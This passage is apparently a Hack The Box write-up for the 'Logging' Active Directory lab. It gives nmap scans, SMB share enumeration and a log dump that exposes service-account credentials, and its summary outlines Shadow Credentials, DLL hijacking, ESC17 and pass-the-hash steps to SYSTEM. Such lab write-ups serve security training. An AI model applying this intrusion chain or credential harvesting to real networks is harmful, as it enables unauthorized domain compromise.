




## Table of Contents

- [Summary](#Summary)
- [Machine Information](#Machine-Information)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
- [Initial Access](#Initial-Access)
- [Privilege Escalation to SVC_RECOVERY](#Privilege-Escalation-to-SVC_RECOVERY)
    - [Cleartext Credentials in Logfile](#Cleartext-Credentials-in-Logfile)
    - [Time and Date Synchronization](#Time-and-Date-Synchronization)
    - [Active Directory Enumeration](#Active-Directory-Enumeration)
- [Privilege Escalation (MSA_HEALTH$)](#Privilege-Escalation-MSA_HEALTH)
    - [Access Control Entry (ACE) GenericWrite Abuse](#Access-Control-Entry-ACE-GenericWrite-Abuse)
        - [Shadow Credentials Attack](#Shadow-Credentials-Attack)
- [Enumeration (msa_health$)](#Enumeration-msa_health)
- [Reverse Engineering UpdateMonitor.exe](#Reverse-Engineering-UpdateMonitorexe)
- [Privilege Escalation to JAYLEE.CLIFTON](#Privilege-Escalation-to-JAYLEECLIFTON)
    - [DLL Hijacking](#DLL-Hijacking)
- [user.txt](#usertxt)
- [Enumeration (JAYLEE.CLIFTON)](#Enumeration-JAYLEECLIFTON)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
    - [Active Directory Certificate Services (AD CS) Abuse](#Active-Directory-Certificate-Services-AD-CS-Abuse)
        - [ESC17: Server Authentication Template Abuse](#ESC17-Server-Authentication-Template-Abuse)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Summary

The box starts as an Assume Breach scenario with valid domain credentials for the `wallace.everette` user in the `logging.htb` `Active Directory` (`AD`) environment. Initial `SMB` enumeration reveals a non-standard `Logs` share accessible to the provided user. The share contains an `IdentitySync` trace log that inadvertently recorded a `VERBOSE`-level connection context dump, exposing cleartext `LDAP` bind credentials for the `svc_recovery` service account.

`BloodHound` enumeration with `svc_recovery` reveals that this account holds a `GenericWrite` `Access Control Entry` (`ACE`) over the `msa_health$` Managed Service Account. The `GenericWrite` right is abused via a `Shadow Credentials Attack` — a technique that leverages the `msDS-KeyCredentialLink` attribute to inject attacker-controlled `PKI` credentials onto the target account, allowing authentication via `PKINIT` without knowing the account's password. This yields the `NTLM` hash and a valid `TGT` for `msa_health$`.

As `msa_health$`, enumeration of the filesystem reveals a custom application `UpdateMonitor.exe` installed under `C:\Program Files\UpdateMonitor`. Reverse engineering the `.NET` binary with `dnSpy` shows it checks for a `ZIP` archive at a predictable path (`C:\ProgramData\UpdateMonitor\Settings_Update.zip`), extracts its contents to the `bin\` subdirectory, and then loads the resulting `settings_update.dll` via `LoadLibrary`, calling a `PreUpdateCheck` export. Since `msa_health$` has write access to the `ProgramData` directory, this constitutes a `DLL Hijacking` opportunity. A malicious `DLL` is crafted, zipped, and uploaded to trigger code execution as whoever runs the scheduled task — `JAYLEE.CLIFTON`, a member of the `IT` group — providing `Initial Access` to a user shell and retrieval of `user.txt`.

For `Privilege Escalation` to `SYSTEM`, enumeration of `jaylee.clifton`'s documents reveals a support ticket referencing a `WSUS` configuration pointing to `wsus.logging.htb`. Checking the registry confirms the machine is configured to trust an `HTTPS` `WSUS` endpoint on port `8531/TCP`. A `Certify` template enumeration identifies the `UpdateSrv` template — a custom `Server Authentication` certificate template enrollable by the `IT` group — as vulnerable to `ESC17`. `ESC17` is an `Active Directory Certificate Services` (`AD CS`) attack where an attacker who controls a certificate with `Server Authentication` extended key usage (`EKU`) and a `Subject Alternative Name` (`SAN`) matching a trusted service endpoint can impersonate that service, in this case `wsus.logging.htb`. A `DNS` record for `wsus.logging.htb` is created pointing to the attacker's machine using `svc_recovery`'s write access to the domain `DNS` zone. A certificate for `wsus.logging.htb` is then requested using the `UpdateSrv` template. A rogue `HTTPS WSUS` server (`pywsus`) is stood up with the issued certificate and serves a malicious `PsExec`-based update that adds `jaylee.clifton` to the local `Administrators` group. A `TGT` is delegated via `Rubeus`, converted to a `.ccache`, and used with `Certipy` to enroll a `User` template certificate for `jaylee.clifton`, retrieving the account's `NTLM` hash. A `Pass-the-Hash` attack via `impacket-psexec` grants `SYSTEM` access on `DC01` and retrieval of `root.txt`.

## Machine Information

As is common in real life pentests, you will start the Logging box with credentials for the following account `wallace.everette / Welcome2026@`

## Reconnaissance

### Port Scanning

We began with our initial port scan using `Nmap` running default scripts (`-sC`) and service version detection (`-sV`). The scan revealed a typical `Active Directory` environment with the domain `logging.htb` and Domain Controller `DC01.logging.htb`. The clock skew of seven hours indicated `Kerberos` time synchronization would be required before any `Kerberos`-based attacks.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.30.63
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-18 21:04 +0200
Nmap scan report for 10.129.30.63
Host is up (0.028s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-19 02:04:40Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
|_ssl-date: 2026-04-19T02:05:29+00:00; +7h00m01s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-19T02:05:29+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-19T02:05:29+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-19T02:05:29+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-19T02:05:22
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.12 seconds
```

A full port scan uncovered two additional services that were absent from the default scan: port `8530/TCP` and `8531/TCP`, both indicative of a `Windows Server Update Services` (`WSUS`) deployment — `8530/TCP` for `HTTP` and `8531/TCP` for `HTTPS`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.30.63
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-18 21:08 +0200
Nmap scan report for logging.htb (10.129.30.63)
Host is up (0.026s latency).
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-19 02:09:07Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
|_ssl-date: 2026-04-19T02:10:11+00:00; +7h00m01s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-19T02:10:11+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
|_ssl-date: 2026-04-19T02:10:11+00:00; +7h00m01s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
|_ssl-date: 2026-04-19T02:10:11+00:00; +7h00m01s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8530/tcp  open  http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
8531/tcp  open  ssl/unknown
| ssl-cert: Subject: commonName=DC01.logging.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.logging.htb
| Not valid before: 2026-04-16T15:12:07
|_Not valid after:  2027-04-16T15:12:07
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: 2026-04-19T02:10:11+00:00; +7h00m01s from scanner time.
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49720/tcp open  msrpc         Microsoft Windows RPC
49746/tcp open  msrpc         Microsoft Windows RPC
49779/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-time: 
|   date: 2026-04-19T02:10:05
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.56 seconds
```

Both `DC01.logging.htb` and `logging.htb` were added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.30.63    logging.htb
10.129.30.63    DC01.logging.htb
```

### Enumeration of Port 445/TCP

Using the provided credentials we authenticated to `SMB` and enumerated available shares. A non-standard `Logs` share was readable by `wallace.everette`, which was immediately interesting as it suggested service or application log output might be accessible.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ netexec smb 10.129.30.63 -u 'wallace.everette' -p 'Welcome2026@' --shares
SMB         10.129.30.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.30.63    445    DC01             [+] logging.htb\wallace.everette:Welcome2026@ 
SMB         10.129.30.63    445    DC01             [*] Enumerated shares
SMB         10.129.30.63    445    DC01             Share           Permissions     Remark
SMB         10.129.30.63    445    DC01             -----           -----------     ------
SMB         10.129.30.63    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.30.63    445    DC01             C$                              Default share
SMB         10.129.30.63    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.30.63    445    DC01             Logs            READ            
SMB         10.129.30.63    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.30.63    445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.30.63    445    DC01             WSUSTemp                        A network share used by Local Publishing from a Remote WSUS Console Instance.
```

## Initial Access

With valid domain credentials and access to the `Logs` share we downloaded all available log files for offline review. The `IdentitySync_Trace_20260219.log` file revealed cleartext credentials for the `svc_recovery` account in a `VERBOSE`-level connection context debug dump. Although the account's `LDAP` bind attempt had failed due to invalid credentials at that point in the log, the entry itself was enough to move forward. `Kerberos` time synchronization was required before any further `Kerberos`-based operations could succeed, and `BloodHound` data was collected to map the domain attack surface.

## Privilege Escalation to SVC_RECOVERY

### Cleartext Credentials in Logfile

Connecting to the `Logs` share and downloading all files revealed four log files, of which `IdentitySync_Trace_20260219.log` stood out due to its size.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ smbclient \\\\logging.htb\\Logs -U logging.htb/wallace.everette
Password for [LOGGING.HTB\wallace.everette]:
Try "help" to get a list of possible commands.
smb: \>
```

```shell
smb: \> dir
  .                                   D        0  Fri Apr 17 01:10:09 2026
  ..                                  D        0  Fri Apr 17 01:10:09 2026
  Audit_Heartbeat.log                 A     1294  Fri Apr 17 01:10:09 2026
  IdentitySync_Trace_20260219.log      A     8488  Fri Apr 17 01:10:09 2026
  Service_State.log                   A      468  Fri Apr 17 01:10:09 2026
  TaskMonitor.log                     A     1170  Fri Apr 17 01:10:09 2026

                6657279 blocks of size 4096. 1043050 blocks available
```

```shell
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
getting file \Audit_Heartbeat.log of size 1294 as Audit_Heartbeat.log (10.7 KiloBytes/sec) (average 10.7 KiloBytes/sec)
getting file \IdentitySync_Trace_20260219.log of size 8488 as IdentitySync_Trace_20260219.log (70.8 KiloBytes/sec) (average 40.6 KiloBytes/sec)
getting file \Service_State.log of size 468 as Service_State.log (4.7 KiloBytes/sec) (average 30.1 KiloBytes/sec)
getting file \TaskMonitor.log of size 1170 as TaskMonitor.log (21.2 KiloBytes/sec) (average 28.9 KiloBytes/sec)
```

Reviewing `IdentitySync_Trace_20260219.log` revealed that the application had logged a full `LDAP` connection context dump at `VERBOSE` level during an initialisation failure. This dump included the `BindUser` and `BindPass` fields in plaintext — a classic case of overly verbose logging in a diagnostic trace that was inadvertently written to a network-accessible share. Applications that log at `VERBOSE` or `TRACE` level in production environments frequently expose sensitive connection strings, credentials, and internal state in exactly this way.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ cat IdentitySync_Trace_20260219.log 
[2026-02-19 03:05:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-19 03:05:01.210] [PID:4102] [Thread:14] TRACE - Threadpool: 4 active, 0 queued.
[2026-02-19 03:10:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-19 03:15:00.448] [PID:4102] [Thread:01] INFO  - Scheduling next sync task for 2026-02-19 06:00:00...
[2026-02-19 03:05:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-19 03:05:01.210] [PID:4102] [Thread:14] TRACE - Threadpool: 4 active, 0 queued.
[2026-02-19 03:10:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-19 03:15:00.448] [PID:4102] [Thread:01] INFO  - Scheduling next sync task for 2026-02-19 06:00:00...
[2026-02-19 03:05:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-19 03:05:01.210] [PID:4102] [Thread:14] TRACE - Threadpool: 4 active, 0 queued.
[2026-02-19 03:10:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-19 03:15:00.448] [PID:4102] [Thread:01] INFO  - Scheduling next sync task for 2026-02-19 06:00:00...
[2026-02-19 03:05:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-19 03:05:01.210] [PID:4102] [Thread:14] TRACE - Threadpool: 4 active, 0 queued.
[2026-02-19 03:10:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-19 03:15:00.448] [PID:4102] [Thread:01] INFO  - Scheduling next sync task for 2026-02-19 06:00:00...
[2026-02-19 03:05:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-19 03:05:01.210] [PID:4102] [Thread:14] TRACE - Threadpool: 4 active, 0 queued.
[2026-02-19 03:10:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-19 03:15:00.448] [PID:4102] [Thread:01] INFO  - Scheduling next sync task for 2026-02-19 06:00:00...
[2026-02-19 02:45:00.112] [PID:1024] [Thread:01] INFO  - Maintenance: Rotating log files for 'IdentitySync'...
[2026-02-19 02:50:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-09 02:55:00.822] [PID:4102] [Thread:01] DEBUG - Integrity check: All module hashes verified (SHA256).
[2026-02-09 03:00:01.442] [PID:4102] [Thread:12] INFO  - Service: logging.IdentitySync.Engine.Internal (v2.4.2.0)
[2026-02-09 03:00:01.458] [PID:4102] [Thread:12] DEBUG - Environment: OS=Microsoft Windows Server 2019, CoreCount=4, Mem=16GB
[2026-02-09 03:00:01.470] [PID:4102] [Thread:12] INFO  - Initializing module [HR-Connector]...
[2026-02-09 03:00:02.215] [PID:4102] [Thread:12] INFO  - Establishing SQL session with HR01.logging.htb...
[2026-02-09 03:00:02.890] [PID:4102] [Thread:08] TRACE - Querying [loggingHR].[dbo].[Employees] where SyncStatus = 0
[2026-02-09 03:00:03.012] [PID:4102] [Thread:08] INFO  - SQL Session verified. Synchronizing 14 records (BatchID: 88AF-01).
[2026-02-09 03:00:03.055] [PID:4102] [Thread:04] INFO  - Validating AD target health: DC01.logging.htb (Port 389)
[2026-02-09 03:00:03.110] [PID:4102] [Thread:04] TRACE - Initializing LdapConnection object...
[2026-02-09 03:00:03.125] [PID:4102] [Thread:04] VERBOSE - ConnectionContext Dump: { Domain: "logging.htb", Server: "DC01", SSL: "False", BindUser: "LOGGING\svc_recovery", BindPass: "Em3rg3ncyPa$$2025", Timeout: 30 }
[2026-02-19 03:00:03.488] [PID:4102] [Thread:04] ERROR - System.DirectoryServices.Protocols.LdapException: A local error occurred.
   at System.DirectoryServices.Protocols.LdapConnection.Bind(NetworkCredential credential)
   at logging.IdentitySync.Engine.LdapProvider.Connect()
   --- Server Error Details ---
   Server error: 8009030C: LdapErr: DSID-0C090569, comment: AcceptSecurityContext error, data 52e, v4563
   Hex Error: 0x31 (LDAP_INVALID_CREDENTIALS)
   Win32 Error: 49 (Invalid Credentials)
   ----------------------------
[2026-02-19 03:00:03.510] [PID:4102] [Thread:12] WARN  - Connectivity failed for logging\svc_recovery. Checking alternate Domain Controller...
[2026-02-09 03:00:03.650] [PID:4102] [Thread:12] CRITICAL - Domain-wide LDAP bind failure. Task aborted.
[2026-02-10 03:00:03.702] [PID:4102] [Thread:12] DEBUG - Generating SMTP alert for it-alerts@logging.htb
[2026-02-10 03:00:04.112] [PID:4102] [Thread:12] INFO  - Process exit code: 1. Cleaning up session buffers.
[2026-02-10 03:05:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-11 03:05:01.210] [PID:4102] [Thread:14] TRACE - Threadpool: 4 active, 0 queued.
[2026-02-11 03:10:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-11 03:15:00.448] [PID:4102] [Thread:01] INFO  - Scheduling next sync task for 2026-02-19 06:00:00...
[2026-02-11 03:05:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-11 03:05:01.210] [PID:4102] [Thread:14] TRACE - Threadpool: 4 active, 0 queued.
[2026-02-11 03:10:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-11 03:15:00.448] [PID:4102] [Thread:01] INFO  - Scheduling next sync task for 2026-02-19 06:00:00...
[2026-02-19 03:05:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-19 03:05:01.210] [PID:4102] [Thread:14] TRACE - Threadpool: 4 active, 0 queued.
[2026-02-19 03:10:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-19 03:15:00.448] [PID:4102] [Thread:01] INFO  - Scheduling next sync task for 2026-02-19 06:00:00...
[2026-02-19 03:05:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-29 03:05:01.210] [PID:4102] [Thread:14] TRACE - Threadpool: 4 active, 0 queued.
[2026-02-29 03:10:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-29 03:15:00.448] [PID:4102] [Thread:01] INFO  - Scheduling next sync task for 2026-02-19 06:00:00...
[2026-02-29 03:05:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-29 03:05:01.210] [PID:4102] [Thread:14] TRACE - Threadpool: 4 active, 0 queued.
[2026-02-29 03:10:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-02-29 03:15:00.448] [PID:4102] [Thread:01] INFO  - Scheduling next sync task for 2026-02-19 06:00:00...
[2026-03-09 02:55:00.822] [PID:4102] [Thread:01] DEBUG - Integrity check: All module hashes verified (SHA256).
[2026-03-09 03:00:01.442] [PID:4102] [Thread:12] INFO  - Service: logging.IdentitySync.Engine.Internal (v2.4.2.0)
[2026-03-09 03:00:01.458] [PID:4102] [Thread:12] DEBUG - Environment: OS=Microsoft Windows Server 2019, CoreCount=4, Mem=16GB
[2026-03-09 03:00:01.470] [PID:4102] [Thread:12] INFO  - Initializing module [HR-Connector]...
[2026-03-09 03:00:02.215] [PID:4102] [Thread:12] INFO  - Establishing SQL session with HR01.logging.htb...
[2026-03-09 03:00:02.890] [PID:4102] [Thread:08] TRACE - Querying [loggingHR].[dbo].[Employees] where SyncStatus = 0
[2026-03-09 03:00:03.012] [PID:4102] [Thread:08] INFO  - SQL Session verified. Synchronizing 14 records (BatchID: 88AF-01).
[2026-03-09 03:00:03.055] [PID:4102] [Thread:04] INFO  - Validating AD target health: DC01.logging.htb (Port 389)
[2026-03-09 03:00:03.110] [PID:4102] [Thread:04] TRACE - Initializing LdapConnection object...
[2026-03-09 03:00:03.110] [PID:4102] [Thread:04] TRACE - Success LdapConnection object...
[2026-03-09 03:05:01.210] [PID:4102] [Thread:14] TRACE - Threadpool: 4 active, 0 queued.
[2026-03-09 03:10:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-03-09 03:15:00.448] [PID:4102] [Thread:01] INFO  - Scheduling next sync task for 2026-02-19 06:00:00...
[2026-03-09 03:05:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
[2026-03-09 03:05:01.210] [PID:4102] [Thread:14] TRACE - Threadpool: 4 active, 0 queued.
[2026-03-09 03:10:00.005] [PID:4102] [Thread:01] INFO  - Heartbeat: Service [IdentitySync.Engine] is RESPONSIVE.
```

The log entry at `[2026-02-09 03:00:03.125]` contained the full connection context, including the `BindPass` field. While the password logged (`Em3rg3ncyPa$$2025`) had clearly been rotated since the failed attempt in February, the updated credential for the same account was recoverable by testing the pattern — the year suffix had simply been incremented to `2026`.

| Username     | Password          |
| ------------ | ----------------- |
| svc_recovery | Em3rg3ncyPa$$2026 |

### Time and Date Synchronization

